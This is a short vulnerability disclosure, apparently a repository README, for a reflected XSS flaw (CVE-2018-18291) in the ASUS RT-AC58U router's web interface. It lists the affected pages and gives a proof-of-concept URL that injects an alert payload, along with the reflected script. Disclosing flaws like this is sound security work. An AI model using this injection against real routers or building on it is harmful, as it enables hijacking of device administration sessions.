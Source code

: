 # AsusXSS     
Newly discovered XSS in ASUS RT-AC58U website components.         
CVE-2018-18291

# Vulnerable components       
Advanced_ASUSDDNS_Content.asp       
Advanced_WSecurity_Content.asp        
Advanced_Wireless_Content.asp       
Logout.asp        
Main_Login.asp        
MobileQIS_Login.asp         
QIS_wizard.htma       
YandexDNS.asp       
ajax_status.xml         
apply.cgi         
clients.asp         
disk.asp      
disk_utility.asp        
internet.asp      
and any other component which is not accesible when not logged in.        
# How it works        
Target opens prepared URL:               
``192.168.1.1/Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0``       
which is vulnerable to Reflected XSS.       
Website returns website with this code:               
`<script>top.location.href='/Main_Login.asp?error_status=7&page=Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0&lock_time=31'</script>`         



